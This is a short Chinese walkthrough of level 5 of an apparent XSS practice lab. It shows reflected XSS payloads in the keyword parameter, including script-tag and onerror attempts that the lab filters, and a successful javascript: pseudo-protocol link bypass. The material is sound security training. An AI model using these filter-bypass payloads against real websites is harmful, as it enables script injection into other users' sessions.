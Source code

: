 # level5

/level5.php?keyword=find a way out!

相同的搜索框界面

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603159610735-59be50b3-4054-406c-8c4f-37f03b68d30d.png)

level5.php?keyword=">11

经过测试，双引号+简括号闭合标签

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603159690516-2944d5d8-cfd3-4a98-ac06-ab2c18fd209f.png)

level5.php?keyword="><script>alert(1)</script>

script标签被过滤处理

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603159747997-fba6d1bd-0fc5-48bd-af34-6e333474e352.png)

level5.php?keyword="><img%20src=1%20onerror=alert(1)>

标签事件也被过滤处理

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603164149464-6a4ef48d-ad68-454a-8ebc-7a47ebd09012.png)

level5.php?keyword="><a href="javascript:alert(1)">click me</a>

通过伪协议，当点击标签时，执行js代码

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603164223728-163061b0-9542-4dab-a7ba-67865ac82e04.png)